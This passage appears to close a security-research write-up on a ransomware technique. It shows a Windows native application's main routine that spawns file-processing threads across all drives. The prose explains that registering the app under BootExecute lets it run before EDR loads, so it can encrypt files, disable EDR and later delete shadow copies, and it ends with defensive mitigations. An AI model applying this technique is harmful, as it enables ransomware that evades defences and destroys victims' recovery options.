```

    ULONG NumProcs = GetProcessorCount();
    ULONG g_DirThreadCount = NumProcs;
    ULONG g_FileThreadCount = NumProcs;

    if (!NT_SUCCESS(EnqueueExistingDrives())) {
        NtTerminateProcess(NtCurrentProcess(), STATUS_UNSUCCESSFUL);
    }

    HANDLE* dirThreads = (HANDLE*)RtlAllocateHeap(g_Heap, 0, sizeof(HANDLE) * g_DirThreadCount);
    for (ULONG i = 0; i < g_DirThreadCount; i++) {
        HANDLE hThread;
        RtlCreateUserThread(NtCurrentProcess(), NULL, FALSE, 0, 0, 0, DirectoryWorkerThread, NULL, &hThread, NULL);
        dirThreads[i] = hThread;
    }

    HANDLE* fileThreads = (HANDLE*)RtlAllocateHeap(g_Heap, 0, sizeof(HANDLE) * g_FileThreadCount);
    for (ULONG i = 0; i < g_FileThreadCount; i++) {
        HANDLE hThread;
        RtlCreateUserThread(NtCurrentProcess(), NULL, FALSE, 0, 0, 0, FileConsumerThread, NULL, &hThread, NULL);
        fileThreads[i] = hThread;
    }

    NtWaitForMultipleObjects(g_DirThreadCount, dirThreads, WaitAll, FALSE, NULL);
    NtWaitForMultipleObjects(g_FileThreadCount, fileThreads, WaitAll, FALSE, NULL);

    for (ULONG i = 0; i < g_DirThreadCount; i++) {
        NtClose(dirThreads[i]);
    }
    for (ULONG i = 0; i < g_FileThreadCount; i++) {
        NtClose(fileThreads[i]);
    }

    RtlFreeHeap(g_Heap, 0, dirThreads);
    RtlFreeHeap(g_Heap, 0, fileThreads);

    NtTerminateProcess(NtCurrentProcess(), STATUS_SUCCESS);
}
```

We have seen that native applications registered under the "Execute" family of values under the "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" key allow early execution primitives, namely before EDRs load, providing us with an opportunity to encrypt files and disable EDR services. With the EDR neutered, once the system is fully up and running we can create a service to delete VSS shadow copies (among many other possible ways).

As a final note, it IS possible to prevent tampering of EDR registry keys with Security principals and ACLs that prevent even SYSTEM principals from tampering with them (as well as files and other objects) even without their callbacks registered. This approach prevents breaking the integrity of these EDR, and our post system initialization actions, such as deleting the volume shadow copies. EDRs could additionally prevent BootExecute registry modification or require, as a layer above the operating system, that these files have valid signatures - significantly reducing this ransomware and system manipulation vector.

